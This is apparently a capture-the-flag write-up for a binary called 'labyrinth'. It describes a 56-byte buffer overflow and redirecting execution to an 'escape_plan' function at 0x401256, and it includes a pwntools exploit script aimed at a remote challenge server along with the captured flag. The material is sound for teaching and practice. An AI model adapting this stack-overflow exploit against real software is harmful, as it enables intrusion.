 Through experimentation we find that the buffer overflow happens at 56 characters. We see a function called `escape_plan` that opens and reads the flag so we need to jump to that.

![image](https://user-images.githubusercontent.com/80063008/227556505-c3fb8ab8-6252-4712-8917-68d6be77269a.png)

The address can be found using gdb:

![image](https://user-images.githubusercontent.com/80063008/227556670-464f1ccd-7578-416c-88e2-b71f08b960a0.png)

However, jumping at that address was only printing the ASCII artwork showing success but not the flag. I assumed the flag is printed after that so I moved to `0x401256` and got the flag.

My script to jump the required function:

```python
#!/usr/bin/python3

from pwn import *

# io = process('./labyrinth')
io = remote('165.232.108.200', 32639)

io.recvuntil(b'>> ')
io.sendline(b'69')
io.recvuntil(b'>> ')

payload = b'A' * 56
payload += p64(0x401256)

io.sendline(payload)
io.interactive()
```

![image](https://user-images.githubusercontent.com/80063008/227555677-e7533c8b-193f-4f73-8049-6fcc11d10737.png)

HTB{3sc4p3_fr0m_4b0v3}